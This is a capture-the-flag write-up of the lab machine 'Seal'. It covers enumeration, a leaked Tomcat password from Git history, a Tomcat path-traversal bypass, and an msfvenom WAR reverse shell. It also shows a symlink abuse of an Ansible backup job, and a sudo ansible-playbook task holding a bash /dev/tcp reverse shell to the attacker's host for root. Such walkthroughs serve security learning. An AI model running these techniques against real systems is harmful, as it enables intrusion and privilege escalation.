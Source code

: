 # Seal

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.190
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 06:12 EDT
Nmap scan report for 10.129.95.190
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

### Vegetables

Port 443 hosts a market page:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

We can do a `gobuster` scan on the website to find what it is available:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://10.129.95.190/ -k -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.95.190/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/03 06:16:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.95.190/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.95.190/admin/]
/icon                 (Status: 302) [Size: 0] [--> http://10.129.95.190/icon/]
/css                  (Status: 302) [Size: 0] [--> http://10.129.95.190/css/]
/js                   (Status: 302) [Size: 0] [--> http://10.129.95.190/js/]
/manager              (Status: 302) [Size: 0] [--> http://10.129.95.190/manager/]
```

There's a `/manager` and `/admin` directory. The former returns 403, while the latter returns an error from Tomcat:

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

Interesting. Let's take a look at port 8080.

### GitBucket --> Tomcat Creds

Port 8080 is hosting a GitBucket instance:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We can create a new account and sign in to see if there are any existing repositories. Straight away, we see tons of push requests to the Market repository.

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

From this, we can find the changes made to the repository. From one of them, we can view the password for the administrator panel by viewing changes made to `tomcat-users.xml`.&#x20;

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

However, we still cannot access the portal.&#x20;

### Directory Traversal --> RCE

While reading Hakctricks for Tomcat vulnerabilities, I found this:

{% embed url="https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/" %}

So by using `/;/`, we might be able to bypass the 403 given earlier. This works for this machine.

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Using `tomcat:42MrHBf*z8{Z%`, we can access the Tomcat dashboard:

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Now we just need to generate a reverse shell with a `msfvenom`.&#x20;

```
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war -o pwn.war      
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: pwn.war
```

Then, we just need to upload this and run it. However, I did get blocked the first time when trying to upload. Reading more into the exploit, we can apparently append `/.;/` anywhere within the URL to bypass the check. After some trial and error, this URL worked:

{% code overflow="wrap" %}
```
https://10.129.95.190/manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=5F28315713273679760DD841AB5F1B53
```
{% endcode %}

Then, we can run our file and get a shell:

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Luis

We couldn't access the user flag as `tomcat`. While looking around, I found some interesting files in `/opt`.&#x20;

```
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

Within the `/playbook` directory, there was a YAML playbook script for Ansible that seems to be running every minute or so:

```
tomcat@seal:/opt/backups/playbook$ ls
run.yml
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files
```

This takes is used for backing the web directory up, and for some reason the `copy_links` variable has been set to True, indicating that this playbook follows symlinks. As such, the exploit is to basically create a symlink between the user's home directory and one of the files being backed up.&#x20;

Afterwards, we can take the newest backup and open it to find the user's home directory has also been backed up.&#x20;

```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

The `uploads` file is used because we have write access to it. Afterwards, we just need to open the backup made and head to the `uploads` file.&#x20;

```
tomcat@seal:/dev/shm$ tar zxf backup-2023-05-03-10\:42\:32.gz --force-local
tomcat@seal:/dev/shm$ ls
backup-2023-05-03-10:42:32.gz  dashboard  spare.gz
tomcat@seal:/dev/shm/dashboard/uploads$ ls -la
total 0
drwxr-x--- 3 tomcat tomcat  60 May  3 10:46 .
drwxr-x--- 7 tomcat tomcat 160 May  7  2021 ..
drwxr-x--- 9 tomcat tomcat 280 May  7  2021 luis
```

We can grab the user flag and also his SSH private key!

### To Root

Now that we are `luis`, we can check our `sudo` privileges:

```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

So we can create our own playbook for a `root` reverse shell basically. I made one like this:

```
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'
```

Then, we can run the playbook and get a reverse shell as `root`.

```
$ nc -lvnp 4444
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.190] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted!
